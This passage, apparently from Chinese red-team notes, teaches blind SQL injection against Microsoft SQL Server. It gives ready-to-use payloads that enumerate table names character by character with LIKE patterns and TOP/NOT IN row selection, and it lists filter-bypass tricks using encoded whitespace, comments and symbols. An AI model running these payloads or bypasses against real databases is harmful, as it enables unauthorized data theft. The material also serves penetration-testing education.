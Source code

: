 MSSQL 所用的正则表达式并不是标准正则表达式 ，该表达式使用 like 关键词
```sql
1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name LIKE '[a-z]%' )
```

该查询语句中，select top 1 是一个组合，不要看错了。

如果要查询其它的表名，由于不能像 mysql 那样用 limit x,1，只能使用 table_name not in (select top x table_name from information_schema.tables) 意义是：表名没有在前 x 行里，其实查询的就是第 x+1 行。

例如查询第二行的表名：
```sql
1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name NOT IN ( SELECT TOP 1 table_name FROM information_schema.tables) and table_name LIKE '[a-z]%' )
```

表达式的顺序：
```
'n[a-z]%' -> 'ne[a-z]%' -> 'new[a-z]%' -> 'news[a-z]%' -> TRUE
```

之所以表达式 news[a-z] 查询后返回正确是应为 % 代表 0-n 个字符，使用 "_" 则只能代表一个字符。故确认后续是否还有字符可用如下表达式
```
'news%' TRUE -> 'news_' FALSE
```

同理可以用相同的方法获取字段，值。这里就不再详细描述了。

### bypass 技巧

**select from 后的位置**
- 空白符号
    ```
    01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
    ```
    需要做 urlencode,sqlserver 中的表示空白字符比较多,靠黑名单去阻断一般不合适.

- 注释符号

    Mssql 也可以使用注释符号 `/**/`

- `.` 符号

    ![](../../../../../assets/img/Security/RedTeam/Web安全/Web_Generic/SQLi/34.jpg)

- `:` 号

    ![](../../../../../assets/img/Security/RedTeam/Web安全/Web_Generic/SQLi/35.jpg)

**select from 之间的位置**
- 空白符号
- 注释符号
- `:` 号

**and 之后的位置**
- 空白符号
- 注释符号
- `:` 号
- `%2b` 号
